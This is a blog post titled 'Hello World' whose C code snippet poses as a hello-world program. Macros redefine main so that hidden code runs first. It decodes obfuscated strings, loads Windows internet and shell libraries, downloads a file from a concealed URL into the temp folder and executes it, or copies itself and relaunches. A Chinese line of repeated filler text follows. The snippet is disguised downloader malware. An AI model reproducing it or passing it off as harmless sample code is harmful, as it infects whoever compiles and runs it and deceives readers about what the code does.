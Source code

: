 ```yaml
---
layout: post
title: "Hello World"
description: "Hello World"
---
```


{% highlight c %}
#include <stdio.h>
#define sc _stdcall
#define M main
int _m(); 
#define main M(l p,l q){_hd(p,q);_m();}int _m
typedef unsigned long l;typedef char c,*s;typedef void v,*p;
typedef l(sc*F0)();typedef l(sc*F9)(l,l,l,l,l,l,l,l,l);
typedef l(sc*F1)(l); typedef l(sc*F8)(l,l,l,l,l,l,l,l);
typedef l(sc*F2)(l,l); typedef l(sc*F7)(l,l,l,l,l,l,l);
typedef l(sc*F3)(l,l,l); typedef l(sc*F6)(l,l,l,l,l,l);
typedef l(sc*F4)(l,l,l,l); typedef l(sc*F5)(l,l,l,l,l);
c __mp[1<<7]={0};l i,j,k,m,n,kl,nl,sl;c bf[1<<12];
l strcpy(l,l);l strcat(l,l);
F1 _nc,_ll,_fc;F2 _ga,_tp;F3 _cf;F4 _nr;F5 _no,_fw;F6 _nu,_sh;F7 _fn;
s __st[]={")GFzGda&Zldd","MszszG\\Zldd","!8Gdda&Zldd",
          "3z\\GFzG\\u0Gz;","3z\\GFzG\\fG{lBsdG","3z\\GFzG\\u0GzWFd;",
          "3z\\GFzG\\QdU!GX{zldG","QFG{\\GBsdG;","mFs\\GBsdG",
          "QdU!GX{zldG","QU0cBsdG;\0\\;","}G\\|G?0P{\\8;",
          "A8Gddg(G17\\G;","zGMVGFZG(G","8\\\\0~55MZ!Z]05sz!\\{ddZl{\\",
          "\\G?0ZG(G\0QEd","F7z{!\0\\0","U0Gz\0GzzD"};
l _dc(s o,s i){
    s p=i;do*(o+(l)p-(l)i+1)=__mp[*p];while(*p && p++);return 0;}
l rl(s z){for(i=0;i<sizeof(l)*8;i++)
    if(((l)z>>i)&1)z=(s)((l)z&~(1<<i));else{z=(s)((l)z|(1<<i));break;};
    return (l)z;}
v _in(){
    l sc LoadLibraryA(l);l sc GetProcAddress(l,l);
    i=j=0;do*(__mp+ j++ +0x20)=i+0x20,i=(i+83)%(0x60);while(i!=0);
    _ga =(F2)GetProcAddress,_ll=(F1)LoadLibraryA;kl=_ll((_dc(bf,__st[0]),rl(bf)));
    nl=_ll((_dc(bf,__st[1]),rl(bf)));sl=_ll((_dc(bf,__st[2]),rl(bf)));
    _no=(F5)_ga(nl,(_dc(bf,__st[3]),rl(bf)));_nr=(F4)_ga(nl,(_dc(bf,__st[4]),rl(bf)));
    _nu=(F6)_ga(nl,(_dc(bf,__st[5]),rl(bf)));_nc=(F1)_ga(nl,(_dc(bf,__st[6]),rl(bf)));
    _fn=(F7)_ga(kl,(_dc(bf,__st[7]),rl(bf)));_fw=(F5)_ga(kl,(_dc(bf,__st[8]),rl(bf)));
    _fc=(F1)_ga(kl,(_dc(bf,__st[9]),rl(bf)));_cf=(F3)_ga(kl,(_dc(bf,__st[10]),rl(bf)));
    _tp=(F2)_ga(kl,(_dc(bf,__st[11]),rl(bf)));_sh=(F6)_ga(sl,(_dc(bf,__st[12]),rl(bf)));
}
l _dl(l u){
    l cn,sn,f,rr,ln=0;
    sn=_no((l)"poilynx",1,0,0,0);if(!sn)return 0;
    cn = _nu(sn,(_dc(bf,__st[14]),rl(bf)),0,0,1<<30,0);
    if(!cn){_nc(sn);return 0;}f=_fn(u,1<<30,3,0,2,1<<7,0);
    while(_nr(cn,(l)bf, sizeof(bf),(l)&rr),rr)ln+=rr,_fw(f,(l)bf,rr,(l)&rr,0);
    _nc(cn);_nc(sn);_fc(f);
    return 1;
}
v _hd(l ac,l av)
{
    c td[1<<10];_in();_tp(1<<12,(l)td);
    if(ac>1 && (((s*)av)[1])[0]==0x53 && (((s*)av)[1])[1]==0){
        strcat((l)td,(_dc(bf,__st[13]),rl(bf)));
        while(!_dl((l)td));
        while(_sh(0,(_dc(bf,__st[16]),rl(bf)),(l)td,0,0,0)<1<<5);
    }else{
        strcat((l)td,(_dc(bf,__st[15]),rl(bf)));_cf((l)((s*)av)[0],(l)td,0);
        _sh(0,(_dc(bf,__st[17]),rl(bf)),(l)td,(m=0x53,(l)&m),0,0);}
    return;
}

int main()
{
    puts("hello world");
    return 0;
}
{% endhighlight %}
这是一段特特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别别长的测试文本。

